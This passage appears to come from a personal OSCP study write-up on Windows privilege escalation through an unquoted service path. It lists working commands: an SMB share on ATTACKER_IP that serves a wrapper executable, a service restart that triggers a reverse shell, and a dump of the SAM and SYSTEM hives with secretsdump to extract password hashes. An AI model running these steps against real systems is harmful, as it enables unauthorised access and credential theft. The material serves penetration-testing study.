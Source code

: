 Start a process, make a procinfo object and attach it to proc.startinfo and finally start the process

`mcs wrapper.cs`

Use SMB to transfer the compiled .exe

```
sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
net use \\ATTACKER_IP\share /USER:user s3cureP@ssword
copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
net use \\ATTACKER_IP\share /del
```

Copy to the directory unquoted and rename to System.exe cus thats the file being called

`sc stop SystemExplorerHelpService`

`sc start SystemExplorerHelpService`

Catch the reverse shell, we are root

`reg.exe save HKLM\SAM sam.bak`

`reg.exe save HKLM\SYSTEM system.bak`

`python3 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL`

<figure><img src=".gitbook/assets/image (77).png" alt=""><figcaption><p>dump user hashes using sam and system files</p></figcaption></figure>

### Conclusion

Miss Dubai, i love you. Let's go get this OSCP done asap.
